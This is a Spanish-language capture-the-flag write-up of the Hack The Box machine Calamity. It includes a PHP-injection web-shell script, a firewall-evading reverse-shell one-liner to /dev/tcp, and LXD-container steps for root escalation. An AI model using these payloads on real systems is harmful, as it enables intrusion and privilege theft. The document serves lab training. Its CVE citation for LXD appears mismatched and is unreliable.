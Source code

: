 ```yaml
---
title : Máquina|Calamity|HTB|LXD
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Calamity/Calamity0.png" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Dificil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: lightblue;">Calamity</a></p>
    </div>
</div>


 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27
>
<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27
>
<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.
>
<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27
>
<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27
>
<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.
>
<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.
>
<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.

```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py
>
<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?
>
<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'
>
<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445
>
<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```
>
<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```
>
<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.
>
<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.
>
<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.
>
<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.
>
<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.
>
<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.
>
<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.
>
<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>
>
<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.
>
<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.
>
<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
>
<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh
>
<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a
>
<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.
> 
>
<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.
>
<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.
>
<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.
>
<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.
>
<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root
>
<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.
>
<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.
>
<img src="imgs/Calamity/Calamity36.png">
